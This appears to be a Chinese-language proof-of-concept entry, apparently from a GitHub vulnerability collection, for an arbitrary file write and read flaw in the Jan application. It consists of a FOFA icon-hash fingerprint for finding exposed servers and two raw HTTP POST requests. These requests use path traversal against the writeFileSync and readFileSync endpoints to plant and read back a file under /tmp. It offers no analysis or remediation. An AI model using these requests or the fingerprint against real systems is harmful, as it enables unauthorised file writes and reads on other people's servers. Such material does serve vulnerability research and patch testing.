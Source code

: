 ## Jan任意文件上传漏洞

## fofa
```
icon_hash="-165268926"
```


## poc
```
POST /v1/app/writeFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 35
Origin: http://<IP>:<Port>
Connection: close

["/../../../../../tmp/a.txt","abc"]


POST /v1/app/readFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 48
Origin: http://<IP>:<Port>
Connection: close

["file:/../../../../../tmp/a.txt","utf-8"]
```
![image](../../images/0558b716-4096-4789-a8cb-2bcebab4a009.png)

![image](../../images/a6bb5774-5e79-4b2a-86a7-e2a60b333fa9.png)


